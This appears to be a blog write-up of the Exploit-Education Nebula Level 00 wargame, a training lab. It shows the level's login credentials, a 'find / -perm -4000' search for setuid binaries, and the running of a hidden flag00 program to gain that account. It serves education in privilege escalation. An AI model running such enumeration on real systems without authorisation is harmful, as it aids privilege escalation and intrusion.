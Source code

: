 ```yaml
---
layout: single_c
title:  "Exploit-Education Nebula Level 00"
date:   2019-08-12 10:43:16 +0530
categories: Exploit-Education
tags: Nebula
classes: wide
author_profile: true

---
```

Exploit Education Level 0

### Challenge
    This level requires you to find a Set User ID program that will run as the `flag00` account.You could also find this by carefully looking in top level directories in / for suspicious looking directories.

    Alternatively, look at the find man page.  

    To access this level, log in as `level00` with the password of `level00`.

### Solution
    We have to use find to find a file with setuser id bit set
    
    
        ```level00@nebula:~$ find / -perm -4000 2>/dev/null | less ```
        
    lets see what the parameters indicate
        
        ```/               it asks find to look for files in root directory
        -perm -4000     its is used to display all files with the setuserid set
        2>/dev/null     gets rid of all error messages```
        
        
        ```level00@nebula:~$ find / -perm -4000 2>/dev/null | less
        /bin/.../flag00
        /bin/fusermount
        /bin/mount
        /bin/pis
        /bin/ping6
        /bin/su
        /bin/umount
        /sbin/mount.ecryptfs_private
        /usr/bin/at
        /usr/bin/chfn
        /usr/bin/chsh
        /usr/bin/gpasswd```
        
    we can see a file named `flag00`. lets investigate 
        ```level00@nebula:/$ cd /bin/.../
        level00@nebula:/bin/...$ ls -la
        total 8
        drwxr-xr-x 2 root   root      29 2011-11-20 21:22 .
        drwxr-xr-x 3 root   root    2728 2012-08-18 02:50 ..
        -rwsr-x--- 1 flag00 level00 7358 2011-11-20 21:22 flag00```
    
    we can see that the `setuserid` bit is set for `flag00`. lets run it
        ```level00@nebula:/bin/...$ ./flag00
        Congrats, now run getflag to get your flag!
        flag00@nebula:/bin/...$ getflag
        You have successfully executed getflag on a target account```
        
    ####Solved